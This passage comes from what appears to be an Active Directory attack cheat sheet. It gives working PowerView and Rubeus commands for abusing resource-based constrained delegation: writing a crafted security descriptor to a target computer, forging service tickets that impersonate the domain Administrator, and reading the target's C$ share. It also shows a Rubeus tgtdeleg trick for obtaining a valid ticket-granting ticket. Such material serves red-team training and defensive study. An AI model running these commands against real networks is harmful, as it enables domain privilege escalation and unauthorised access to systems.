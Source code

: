 SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account

. .\PowerView.ps1

$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList

"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-

AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView

Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus

Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword>

/impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine dir \\TargetMachine.wtver.domain\C$

Detailed Articles:

- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

❗ In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED_TO_AUTH_FOR_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.

#Command on Rubeus

Rubeus.exe tgtdeleg /nowrap

Detailed Article: [Rubeus –  Now With More Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### Abusing Backup Operators Group
